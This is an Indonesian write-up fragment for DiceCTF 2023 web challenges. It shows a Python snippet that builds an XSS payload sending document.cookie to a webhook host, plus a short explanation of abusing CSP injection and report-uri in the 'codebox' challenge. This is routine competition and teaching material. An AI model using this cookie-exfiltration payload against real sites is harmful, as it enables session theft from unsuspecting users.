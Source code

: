 ```python
payload = """
<script nonce=12312312>
window.location.href = "https://eowpmyr1h7ic854.m.pipedream.net?"+document.cookie
</script>
aaaa
"""
url = "https://recursive-csp.mc.ax/?name="

print(url+get_collision(payload, "12312312"))
```

Jalankan script di atas dan masukkan outputnya ke bot admin yang disediakan, setelah itu kita akan mendapatkan flagnya di webhook yang kita buat 

![](Pasted%20image%2020230207164229.png)

Silahkan ya temen2 yang mau buat post writeup dari DiceCTF 2023 bisa disini🙏 

> Dari sini merupakan challenge yang tidak bisa kita selesaikan saat perlombaan ctf berlangsung

# Brief explanation about the challenges
---
## codebox (web)

Pada challenge ini kita tidak perlu untuk mendapatkan xss, melainkan kita bisa memanfaatkan vulnerability CPS injection yang berada di atribute src pada tag img . Setelah itu kita dapat memanfaatkan CSP require-truested-types-for untuk mentrigger CSP violation dan mengirimkan report tersebut menggunakan CSP report-uri 

![](Pasted%20image%2020230207164413.png)
